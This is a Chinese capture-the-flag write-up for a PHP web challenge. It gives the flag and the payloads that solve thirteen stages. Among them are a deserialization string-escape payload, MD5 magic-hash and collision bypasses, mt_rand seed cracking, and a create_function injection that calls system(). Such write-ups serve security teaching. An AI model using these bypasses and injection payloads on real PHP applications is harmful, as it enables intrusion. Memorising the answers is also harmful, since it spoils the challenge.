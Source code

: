 * 题目名称： 夺命十三枪

* 题目类型： WEB

* 题目难度： 困难

* 出题人： Chimedal

* 考点：php绕过大乱炖

* 描述：国服韩信在初赛失利后毅然闭关，刻苦钻研PHP，打磨出这一绝世武功——夺命十三枪。
夺命十三枪始于浩荡天恩
逐百鬼夜行天下无双
风无声 心如止水
光无影 七剑无衡
海纳百川浑然依啄
各位师傅能接几枪呢？

* flag： XSCTF{Y0u_ar3_tHe_tru3_PHP_mAst3r}

* Writeup：
第一关：
```
man1=hahah&man2=xiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohexiaohe";s:4:"ohoh";b:1;}
```

第二关：
```
&username=hanxin&code=t0
```

第三关：
```
d=99999
```

第四关：
```
num[1]=a&num[2]=b
```

第五关：
```
mdmd1=QNKCDZO&mdmd2=s878926199a
```

第六关：
```
mdmdmd1[]=1&mdmdmd2[]=2
```

第七关：
```
mdmdmdmd1=psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%24%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%82%7D%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%84%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEcC%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%BC%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%99%B59%F9%FF%C2&mdmdmdmd2=psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%A4%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%02%7E%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%04%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEc%C3%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%3C%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%9959%F9%FF%C2
```

第八关
```
qq=xx[0]=s878926199a
```

第九关
```
pra=2306312
```

第十关
这里考察了种子爆破，使用`php_mt_seed`工具进行爆破。
根据代码，会在一定时间内给出我们第一个随机数，然后我们根据这个随机数去爆破。
```php
<?php
mt_srand(1728453);
echo "hint:" . (mt_rand()) . "<br />";
for ($i = 0; $i <= 100; $i++) {

    if ($i == 100) {
        $sui = mt_rand();
        print_r($sui);
    } else {
        mt_rand();
    }
}
```
这里写了一个循环，我们可以利用题目中的代码去生成对应的随机数，然后去给POST中的many赋值。

第十一关
```
?a=QNKCDZO&b=240610708&c=/+ 
```

第十二关
```
这里用到十六进制0x117c或者八进制010574
```

第十三关
```
flag1=\create_function&flag2=return;}system("calc");//
```







